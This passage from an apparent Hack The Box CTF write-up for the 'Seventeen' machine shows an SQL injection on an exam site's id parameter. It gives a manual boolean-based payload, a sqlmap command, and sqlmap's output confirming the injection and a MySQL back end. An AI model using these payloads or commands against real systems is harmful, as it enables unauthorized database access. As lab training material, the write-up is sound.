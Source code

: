 I'll pass the request `http://exam.seventeen.htb/?p=take_exam&id=1' AND 4755=4752 AND 'VHNu'='VHNu` It may work.

![sqli_1](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/sqli1.png?raw=true)

If we lower the value of `4755=4755` `4755=4754` we'll get a alert

![sqli2](https://github.com/0xWerz/CTF-writeups/blob/main/HTB/Machines/seventeen/img/sqli2.png?raw=true)

So based on this behavior it should be a boolean-based SQL injection.

I'll automate it with [sqlmap](https://github.com/sqlmapproject/sqlmap) 

> sqlmap.py --technique B -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --batch

||||
|------|-----|-----|
|--technique B|boolean-based|
|-p |specific param|
|--batch|non-interactive session

```
sqlmap.py -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch
        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.6.9.3#dev}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 16:35:34 /2022-09-29/

[16:35:35] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=6576f096723...b079104033'). Do you want to use those [Y/n] Y
[16:35:36] [INFO] testing if the target URL content is stable
[16:35:36] [INFO] target URL content is stable
[16:35:36] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[16:35:37] [INFO] testing for SQL injection on GET parameter 'id'
[16:35:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[16:35:42] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="This")
[16:36:12] [WARNING] there is a possibility that the target (or WAF/IPS) is dropping 'suspicious' requests
[16:36:12] [CRITICAL] connection timed out to the target URL. sqlmap is going to retry the request(s)
[16:37:42] [CRITICAL] connection timed out to the target URL
[16:37:51] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[16:37:51] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 25 HTTP(s) requests:
---
Parameter: id (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: p=take_exam&id=1' AND 3991=3991 AND 'MTpX'='MTpX
---
[16:37:54] [INFO] testing MySQL
[16:37:54] [INFO] confirming MySQL
```